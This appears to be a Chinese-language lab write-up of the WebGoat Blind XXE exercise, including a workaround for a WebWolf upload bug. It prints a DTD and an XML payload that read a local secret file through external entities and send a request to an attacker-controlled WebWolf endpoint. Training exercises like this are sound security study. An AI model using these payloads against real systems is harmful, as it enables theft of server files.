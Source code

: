 实际上xml也可以发
![](../../images/Pasted%20image%2020241125173456.png)

### 4.3 盲XXE

需要利用 **Blind XXE（盲目 XML External Entity Injection）** 攻击，从 WebGoat 服务器上传一个名为 `secret.txt` 的文件到你控制的 WebWolf 服务器
需要在 WebWolf 服务器上创建一个 DTD 文件，这个dtd文件能够上传`secret.txt`
然后构造一个 XML 文档，引用刚刚创建的 DTD 文件，发在评论里，让服务器解析时完成上传

这个dtd文件也应该是一个链接
肯定要先上传文件但，这个WebWolf有问题

![](../../images/Pasted%20image%2020241126160920.png)

搜了一下
https://github.com/WebGoat/WebGoat/issues/1473
有点像，但这个问题没被解决啊，只好自己看看了

定位到文件要被上传到webwolf.fileserver.location里
![](../../images/Pasted%20image%2020241126161532.png)
去查配置文件
![](../../images/Pasted%20image%2020241126161600.png)
是在/tmp下面，于是去docker里翻翻
发现/tmp/webwolf-fileserver下面竟然有一个我的用户名的文件，这怎么看都应该是个目录
删掉文件，改成目录后，就好了！
![](../../images/Pasted%20image%2020241126160842.png)
![](../../images/Pasted%20image%2020241126161733.png)

这个地方卡住了，一开始没理解
原来不是把secret.txt文件上传上去，是利用这个landing请求拼接出一个url
这条访问记录可以在webwolf后台直接看到
比如这样
dtd文件
```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY test SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt'>
```
xml如下
```xml
<?xml version="1.0"?>
<!DOCTYPE dtd SYSTEM "http://127.0.0.1:9090/WebWolf/files/testtest/attack.dtd">
<comment>
  <text>&send;</text></comment>
```
访问看到我直接卸载dtd里的url
![](../../images/Pasted%20image%2020241126184315.png)
评论需要随便写一条才会刷新
![](../../images/Pasted%20image%2020241126184636.png)
